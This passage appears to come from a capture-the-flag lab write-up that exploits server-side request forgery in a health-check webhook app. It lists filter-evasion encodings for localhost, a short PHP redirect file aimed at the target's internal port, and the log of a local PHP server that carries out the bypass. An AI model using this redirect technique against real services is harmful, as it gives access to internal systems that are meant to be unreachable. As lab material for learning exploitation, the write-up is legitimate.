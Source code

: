 ```bash
{"webhookUrl":"http:\/\/10.10.14.34:9001\/","monitoredUrl":"http:\/\/10.10.14.34\/","health":"up","body":"<html>\n  <head>\n    <title>Health Check<\/title>\n  <\/head>\n  <body>\n    <p>The Page is totally healthy and legit.<\/p>\n  <\/body>\n<\/html>\n","message":"HTTP\/1.0 200 OK","headers":{"Server":"SimpleHTTP\/0.6 Python\/3.10.9","Date":"Sun, 08 Jan 2023 18:29:41 GMT","Content-type":"text\/html","Content-Length":"135","Last-Modified":"Sun, 08 Jan 2023 18:29:18 GMT"}}
```

We see that we can extract the contents of the website that we are monitoring through the webhook, that opens the possibility of SSRF to get the contents of the filtered website!

### SSRF

There is some filtering present then trying to make the webapp monitor itself, no SSRF bypass that I've tested seemed to work (ex: **localhost**, **0177.00.00.01**, **017700000001**, **0x7f000001** etc...)

#### Filter Bypass

As we can't directly reach port 3000 due to the filtering the only option left is trying to redirect the webapp to itself.
![plan](images/plan.png)

A quick and easy way to achieve this is by using php and adding a Location header that redirects to our desired target.

So we should create a index.php file to serve.
```php
<?php
header('Location: http://10.10.11.176:3000/');
die();
?>
```
And then we just need to start a local php server and click test in the website.
```bash
❯ sudo php -S 10.10.14.34:80
[Sun Jan  8 19:59:24 2023] PHP 8.1.13 Development Server (http://10.10.14.34:80) started
[Sun Jan  8 19:59:32 2023] 10.10.11.176:46354 Accepted
[Sun Jan  8 19:59:32 2023] 10.10.11.176:46354 [302]: GET /
[Sun Jan  8 19:59:32 2023] 10.10.11.176:46354 Closing
```
